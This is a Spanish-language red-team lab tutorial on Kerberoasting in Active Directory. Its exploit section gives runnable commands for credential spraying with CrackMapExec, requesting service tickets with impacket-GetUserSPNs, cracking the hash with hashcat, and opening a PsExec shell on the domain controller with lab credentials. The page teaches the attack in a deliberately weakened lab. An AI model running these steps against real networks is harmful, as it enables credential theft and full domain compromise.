




# KERBEROASTING

## INTRODUCCIÓN


Este ataque está relacionado a las [malas prácticas](https://ajcruz15.gitbook.io/red-team/active-directory-hacking/creando-un-laboratorio-de-ad/3.-misconfiguraciones-importantes):

* **2. Desactivar el Firewall de Windows.**
* **3. Desactivar las protecciones del Antivirus de Windows Defender.**
* **5. Asignar un SPN al usuario creado**
* **7. Convertir un usuario en Administrador local de los clientes.**
* **8. Generar carpetas compartidas con los administradores locales.**


### Esquema de trabajo

Vamos a explotar el siguiente esquema:

En un Directorio Activo hemos obtenido un acceso inicial con un usuario con bajos privilegios, por ejemplo, utilizando SMB Relay o NTLM Relay. \(vgarcia:Password2\). 

Con este acceso inicial en mente vamos a tratar de crackear el Hash de un Ticket-Granting Service \(TGS\) expedido en nombre de un usuario que posee un SPN asociado.


En este ataque explotamos la capacidad de todos y cada uno de los usuarios autenticados de un dominio de solicitar un Ticket-Granting Service. 

Recordemos que este TGS se encuentra encriptado con el secreto del servicio al que queremos acceder. Si este servicio es un usuario con un SPN asociado \(un usuario que Active Directory entiende como un servicio\) entonces su secreto será su contraseña y por lo tanto, el Hash obtenido se podrá crackear si la contraseña no es muy robusta.


Para entender mejor estos conceptos puede ver:



### Herramientas necesarias

#### CrackMapExec

Es una herramienta de post-explotación que se aprovecha de protocolos y características propias de los entornos de Directorio Activo para obtener una gran cantidad de información sobre los mismos.

Utiliza **Impacket** y **Powersploit Toolkit**



#### **Impacket**

Es una colección de clases de Python para trabajar con protocolos de red. Está pensada para obtener control a bajo nivel de los paquetes utilizados por algunos protocolos y, en algunos casos como SMBv1, la propia implementación del protocolo en sí mismo.

Concretamente para este ataque vamos a utilizar **impacket-GetUserSPNs**



#### PowerSploit Toolkit 

Es una colección de scripts de Powershell orientados a ayudar a pentesters en su proceso. Éste repositorio se encuentra deprecated.



#### Hashcat

Es el crackeador de hashes más rápido del mundo actualmente. Puede aprovecharse de la pontecia de una GPU. 



### Resumen

* Vamos a comprobar el alcance de nuestros credenciales capturados.
* Vamos a obtener TGS de los usuarios con SPNs asociados.
* Vamos a crackear el Hash capturado en el TGS.
* Vamos a comprobar el alcance de nuestros nuevos credenciales.
* Vamos a entrar en el DC.

## EXPLOIT

### 1. Comprobar alcance de credenciales

Como ya hemos dicho en la introducción, hemos conseguido unos credenciales en una fase preliminar y ya tenemos nuestro Foothold en la máquina.

`vgarcia:Password2`

Vamos a utilizar lo ya aprendido para comprobar el alcance de estos credenciales. Realizamos un Spraying en toda la red con estos credenciales:

`cme smb RED -u 'USUARIO' -p 'PASSWORD'`

Sin embargo, aunque no tenga privilegios, este usuario puede solicitar TGS igual que cualquier otro usuario del dominio.

### 2. Obtener TGS de SPNs asociados a usuarios

A continuación aprovechando las funcionalidades de **impacket-GetUserSPNs** vamos a solicitar desde la cuenta del usuario que tenemos los TGS de los diferentes SPNs, a ver que encontramos.

`sudo echo "IP_DC <tab> hackpoc <tab> hackpoc.local >> /etc/hosts`

`sudo impacket-GetUserSPNs -request hackpoc.local/vgarcia:Password2`

### 3. Crackear el Hash

A continuación tratamos de crackear el Hash utilizando Hashcat \(por no utilizar siempre john\).

1. Cogemos el Hash que hemos obtenido y lo copiamos en un archivo hash.txt
2. Para averiguar el modo en el que trabaja hashcat con estos hashes sacamos: `hashcat --example-hashes | grep "krb5tgs" -B 2` 
3. Utilizamos hashcat para crackear el hash. `hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`

Los credenciales son SVC-SQLService:MYpassword123\#

### 4. Comprobar alcance de credenciales

Volvemos a realizar el paso uno pero con los nuevos credenciales.

`cme smb RED -u 'USUARIO' -p 'PASSWORD'`

### 5. Shell interactiva con el DC

El usuario que hemos obtenido es un usuario administrador de dominio por lo que ahora tenemos capacidad de PSExec al DC.

`impacket-psexec hackpoc/SVC-SQLService:MYpassword123#@192.168.1.100 cmd.exe`

## REFERENCIAS

[https://en.hackndo.com/kerberoasting/](https://en.hackndo.com/kerberoasting/)  
[https://seguridad-ofensiva.com/blog/directorio-activo/kerberoasting/](https://seguridad-ofensiva.com/blog/directorio-activo/kerberoasting/)  
[https://www.youtube.com/watch?v=KYFlvFfh-Js&list=PLlb2ZjHtNkpg2Mc3mbkdYAhEoqnMGdl2Z&index=2](https://www.youtube.com/watch?v=KYFlvFfh-Js&list=PLlb2ZjHtNkpg2Mc3mbkdYAhEoqnMGdl2Z&index=2)

